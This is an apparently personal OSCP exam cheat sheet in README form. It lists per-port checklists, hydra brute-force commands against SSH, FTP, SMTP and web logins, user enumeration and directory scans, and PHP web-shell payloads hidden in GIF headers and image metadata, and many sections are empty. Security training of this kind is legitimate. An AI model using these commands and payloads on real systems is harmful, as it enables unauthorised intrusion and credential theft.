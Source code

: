 # OSCP-CheatSheet

c1inton's OSCP CheatSheet.

  - [Port](#port)
    - [21-FTP](#21-ftp)
    - [22-SSH](#22-ssh)
    - [25-SMTP](#25-smtp)
    - [53-DNS](#53-dns)
    - [80/443-HTTP(S)](#80443-https)
      - [Web Enumration](#web-enumeration)
      - [SQL Injection](#sql-injection)
      - [No-SQL Injection](#no-sql-injection)
      - [XML External Entities (XXE)](#xml-external-entities-xxe)
      - [Cross-site Scripting (XSS)](#cross-site-scripting-xss)
      - [File Inclusion (LFI/RFI)](#file-inclusion-lfirfi)
      - [Server-side Request forgery (SSRF)](#server-side-request-forgery-ssrf)
      - [File Upload](#file-upload)
    - [88-KERBEROS](#88-kerberos)
    - [110-POP3](#110-pop3)
    - [111-NFS/RPC](#111-nfsrpc)
  - [Linux Privilege Escalation](#linux-privilege-escalation)
  - [Windows Privilege Escalation](#windows-privilege-escalatio)
  - [Useful Commands](#useful-commands)
    - [File Transfer](#file-transfer)
    - [Reverse Shell](#reverse-shell)
    - [Shell Spawning](#shell-spawning)
  - [Buffer Overflow](#buffer-overflow)


## Port
### 21-FTP
- [ ] Check if you have anonymous access
- [ ] Check if you can upload a file to trigger a webshell through the webapp
- [ ] Check if you can download backup files to extract included passwords
- [ ] Check the version of FTP for exploits
```bash
ftp $ip

#Brute force
hydra -V -f -L username.txt -P password.txt ftp://$ip -u -vV 
```
### 22-SSH
- [ ] Try easy username-password combinations
- [ ] Check for username enumeration vulnerabilities
- [ ] Check version for vulnerabilities
- [ ] (Only when getting desperate) Try brute force with Hydra, Medussa, ...
```bash
ssh $user@$ip
ssh $user@$ip -i user.key

#Brute force
hydra -v  -L user.txt -P /usr/share/wordlists/rockyou.txt -t 16 $ip ssh
hydra -l gibson -P /tmp/alpha.txt -T 20 $ip ssh

#SSH key file
/home/user/.ssh/id_rsa
/home/user/.ssh/authorized_keys
```
### 25-SMTP
- [ ] Check for user enumeration
- [ ] Check version for exploits
- [ ] Check for null sessions
```bash
telnet $ip 25

#Enumeration
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t $ip

#Brute force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V
```
### 80/443-HTTP(S)
- [ ] Login portals 
    - [ ] try the default credentials off the application
    - [ ] try usernames already seen throughout the application or in other services like SMTP
    - [ ] try SQL injection bypasses
    - [ ] try registering a new user
    - [ ] brute force with hydra, medusa, ...
- [ ] Inspect page content, HTTP header, ...
- [ ] Check robots.txt for hidden directories
- [ ] Brute force directories to find hidden content
- [ ] Check for passwords/URLs/versions/... in comments of web app
- [ ] Check version numbers for known exploits
    - [ ] Check changelog for version information
    - [ ] Estimate version based on copyright date (if not automatically adjusted)
- [ ] Check if specific CMS is used like WordPress and then use platform specific scanners 
- [ ] ways to RCE 
  - [ ] check for file upload functionalities (if uploads are filtered, try alternative extensions)
  - [ ] execute commands through SQLi 
  - [ ] Shellshock
  - [ ] command injection
  - [ ] trigger injected code through path traversal

#### Web Enumeration
```bash
#Brute force directory
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,txt,asp,aspx -u $url
dirb $url -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  

#Extension set
sh,txt,php,html,htm,asp,aspx,js,xml,log,json,jpg,jpeg,png,gif,doc,pdf,mpg,mp3,zip,tar.gz,tar
ext~,ext.bak,ext.tmp,ext.old,bak,tmp,old

#Brute force login
hydra -L username.txt -P password.txt -f $ip http-get /manager/html -vV -u
hydra $ip http-post-form "/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid" -P /usr/share/wordlists/rockyou.txt -l admin

#Webdav
davtest --url $url

#CMS Scanner
wpscan --url $ip/wp/
droopescan scan drupal -u $url -t 32
joomscan -u $ip
```
#### SQL injection

#### No-SQL injection

#### XML External Entities (XXE)

#### Cross-site Scripting (XSS)
#### File Inclusion (LFI/RFI)
```bash


#Payload all the things
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
```
#### Server-side Request forgery (SSRF)
```bash


#Payload all the things

```

#### File Upload
```bash
#Extension set
php - phtml, .php, .php3, .php4, .php5, .Php, .pHp, phP, .php.jpg and .inc
asp - asp, .aspx
perl - .pl, .pm, .cgi, .lib
jsp - .jsp, .jspx, .jsw, .jsv, and .jspf
Coldfusion - .cfm, .cfml, .cfc, .dbm

#GIF89a
GIF89a;            
<?            
system($_GET['cmd']);//or you can insert your complete shell code            
?>

#Exiftool
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>'

#Payload all the things
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files
```
### 88-KERBEROS
```bash
https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
```
### 110-POP3
- [ ] Check version for exploits
- [ ] Check mails for the presence of credentials
```bash
telnet $ip 110
list
retr $number
```

### 111-NFS/RPC
- [ ] Check for passwords in files on mountable drives
```bash
rpcinfo -p $ip
showmount -e $ip
```

## Linux Privilege Escalation

## Windows Privilege Escalation

## Useful Commands
### File Transfer

### Reverse Shell

### Shell Spawning

## Buffer Overflow

windows kernel exploits
https://github.com/SecWiki/windows-kernel-exploits

export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

```python
#test
s = "Python syntax highlighting"
print s
```